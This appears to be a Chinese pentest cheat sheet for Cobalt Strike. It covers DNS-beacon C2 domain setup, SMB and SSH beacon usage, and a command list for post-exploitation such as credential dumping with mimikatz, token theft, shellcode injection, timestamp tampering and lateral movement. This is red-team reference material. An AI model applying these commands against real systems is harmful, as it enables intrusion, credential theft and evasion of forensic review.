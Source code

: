   ##### DNS Beacon
	编辑域的区域文件
	为 Cobalt Strike 系统创建 A 记录
	创建指向 Cobalt Strike 系统的 FQDN 的 NS 记录
	创建 DNS A 记录并将其指向您的 Cobalt Strike 团队服务器。使用 DNS NS 记录将多个域或子域委托给您的 Cobalt Strike 团队服务器的 A 记录。
	nslookup jibberish.beacon polling.campaigns.domain.com
	nslookup jibberish.beacon campaign.domain.com

	Digital Ocean 上的 DNS 示例：

	NS  example.com                     directs to 10.10.10.10.            86400
	NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
	A	campaigns.example.com           directs to 10.10.10.10	            3600 

	>systemctl disable systemd-resolved
	>systemctl stop systemd-resolved
	>rm /etc/resolv.conf
	>echo "nameserver 8.8.8.8" >  /etc/resolv.conf
	>echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
	配置：

	主机：campaigns.domain.com
	beacon：polling.campaigns.domain.com

  ##### SMB Beacon
  	link [host] [pipename]
	connect [host] [port]
	unlink [host] [PID]
	jump [exec] [host] [pipe]
	错误代码
| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |

  ##### SSH Beacon
  	部署一个 beacon
	beacon> help ssh
	Use: ssh [target:port] [user] [pass]
	Spawn an SSH client and attempt to login to the specified target

	beacon> help ssh-key
	Use: ssh [target:port] [user] [/path/to/key.pem]
	Spawn an SSH client and attempt to login to the specified target

	beacon的命令
	upload                    上传
	download                  下载
	socks                     启动 SOCKS4a
	sudo                      使用sudo执行命令
	rportfwd                  设置一个反向端口转发
	shell                     通过shell执行命令

	argue                     进程参数欺骗
	blockdlls                  阻止子进程加载非Microsoft DLL
	browserpivot              注入受害者浏览器进程
	bypassuac                绕过UAC提升权限
	cancel                    取消正在进行的下载
	cd                        切换目录
	checkin                   强制让被控端回连一次
	clear                     清除beacon内部的任务队列
	connect                   Connect to a Beacon peer over TCP
	covertvpn                 部署Covert VPN客户端
	cp                        复制文件
	dcsync                    从DC中提取密码哈希
	desktop                   远程桌面(VNC)
	dllinject                   反射DLL注入进程
	dllload                    使用LoadLibrary将DLL加载到进程中
	downloads                列出正在进行的文件下载
	drives                     列出目标盘符
	elevate                    使用exp
	execute                   在目标上执行程序(无输出)
	execute-assembly         在目标上内存中执行本地.NET程序  execute-assembly [/path/to/script.exe] [arguments]
	exit                       终止beacon会话
	getprivs                   Enable system privileges on current token
	getsystem                 尝试获取SYSTEM权限
	getuid                     获取用户ID
	hashdump                  转储密码哈希值
	help                       帮助
	inject                      在注入进程生成会话
	jobkill                     结束一个后台任务
	jobs                       列出后台任务
	kerberos_ccache_use       从ccache文件中导入票据应用于此会话
	kerberos_ticket_purge     清除当前会话的票据
	kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话
	keylogger                 键盘记录
	kill                      结束进程
	link                      Connect to a Beacon peer over a named pipe
	logonpasswords            使用mimikatz转储凭据和哈希值
	ls                        列出文件
	make_token                创建令牌以传递凭据
	mimikatz                  运行mimikatz
	mkdir                     创建一个目录
	mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
	mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
	mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
	mode http                 使用HTTP作为通信通道
	mv                        移动文件
	net                       net命令
	note                      备注       
	portscan                  进行端口扫描
	powerpick                 通过Unmanaged PowerShell执行命令
	powershell                通过powershell.exe执行命令
	powershell-import         导入powershell脚本 powershell-import [/path/to/script.ps1]
	ppid                      Set parent PID for spawned post-ex jobs
	ps                        显示进程列表
	psexec                    Use a service to spawn a session on a host
	psexec_psh                Use PowerShell to spawn a session on a host
	psinject                  在特定进程中执行PowerShell命令
	pth                       使用Mimikatz进行传递哈希
	pwd                       当前目录位置
	reg                       Query the registry
	rev2self                  恢复原始令牌
	rm                        删除文件或文件夹
	run                       在目标上执行程序(返回输出)
	runas                     以其他用户权限执行程序
	runasadmin                在高权限下执行程序
	runu                      Execute a program under another PID
	screenshot                屏幕截图
	setenv                    设置环境变量
	shinject                  将shellcode注入进程
	shspawn                   启动一个进程并将shellcode注入其中
	sleep                     设置睡眠延迟时间
	socks stop                停止SOCKS4
	spawn                     派生新的会话 
	spawnas                   Spawn a session as another user
	spawnto                   指明在派生会话时将shellcode注入到具体的进程
	spawnu                    选择一个临时的父进程，然后派生一个子进程，这个子进程同样可以用spawnto指定
	ssh                       使用ssh连接远程主机
	ssh-key                   使用密钥连接远程主机
	steal_token               从进程中窃取令牌
	timestomp                 将一个文件的时间戳应用到另一个文件
	unlink                    Disconnect from parent Beacon
	wdigest                   使用mimikatz转储明文凭据
	winrm                     使用WinRM横向渗透
	wmi                       使用WMI横向渗透
	执行命令，在beacon模式下键入shell+命令
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/221.png)

	>sleep 0 交互模式，立刻执行命令
	注入DLL到某个进程
	>dllload [pid] [c:\path\to\file.dll] DLL需在目标上
	>kerberos_ticket_purge 清除票据
	>kerberos_ccache_use	[/path/to/file.ccache]  从ccache文件导入票据
	>kerberos_ticket_use [/path/to/file.ccache] 从ticket文件导入票据
	>kill pid 结束进程
	>timestomp [fileA]	[fileB] 修改文件时间戳
	>getuid	 获取当前用户
	>steal_token [pid] 窃取进程ID
	>rev2self 恢复原始令牌
	>powershell-import	[/path/to/local/script.ps1] 导入PS模块 
	>shinject [pid] <x86|x64> [/path/to/my.bin] 向进程注入shellcode
	>socks	port在指定端口开启代理
	>socks stop停止代理
	>rportfwd [bind port]	[forward host]	[forward port]开启端口转发